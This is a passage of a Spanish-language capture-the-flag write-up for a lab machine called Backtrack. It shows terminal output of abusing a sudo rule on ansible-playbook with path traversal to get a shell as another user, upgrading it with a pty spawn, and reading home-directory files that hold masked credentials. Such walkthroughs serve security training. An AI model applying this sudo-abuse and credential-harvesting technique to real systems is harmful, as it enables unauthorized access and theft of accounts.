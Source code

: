 ```
tomcat@Backtrack:/dev/shm$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../../../../dev/shm/*.yml
<ok /opt/test_playbooks/../../../../../dev/shm/*.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
...<SNIP>...

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [shell] *******************************************************************
$ id
id
uid=1004(wilbur) gid=1004(wilbur) groups=1004(wilbur)
$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"
wilbur@Backtrack:/dev/shm$ ls -lna /home/wilbur
ls -lna /home/wilbur
total 28
drwxrwx--- 3 1004 1004 4096 Oct 13 15:03 .
drwxr-xr-x 4    0    0 4096 Mar  9  2024 ..
drwxrwxr-x 3 1004 1004 4096 Oct 13 15:03 .ansible
lrwxrwxrwx 1    0    0    9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 1004 1004 3771 Mar  9  2024 .bashrc
-rw------- 1 1004 1004   48 Mar  9  2024 .just_in_case.txt
lrwxrwxrwx 1    0    0    9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 1004 1004 1010 Mar  9  2024 .profile
-rw------- 1 1004 1004  461 Mar  9  2024 from_orville.txt
```

Logramos acceder al directorio de *wilbur*, vemos que tiene dos ficheros interesantes para continuar con la explotación de la máquina.

#### Credenciales de wilbur en el fichero .just_in_case.txt:
```
wilbur@Backtrack:/dev/shm$ cat /home/wilbur/.just_in_case.txt
cat /home/wilbur/.just_in_case.txt
in case i forget :

wilbur:****************
wilbur@Backtrack:/dev/shm$ 
```

El otro fichero llamado "from_orville.txt", contempla un mensaje para *Wilbur*, en el que le está indicando que hay una aplicación web interna y que el sistema de registro está suspendido, pero nos ha prestado sus credenciales de acceso ;).
```
wilbur@Backtrack:/dev/shm$ cat /home/wilbur/from_orville.txt
cat /home/wilbur/from_orville.txt
Hey Wilbur, it's Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I'd like you to test it yourself to see if everything works and secure.
I've started the app locally so you can access it from here. I've disabled registrations for now because it's still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : ******************
wilbur@Backtrack:/dev/shm$ 
```
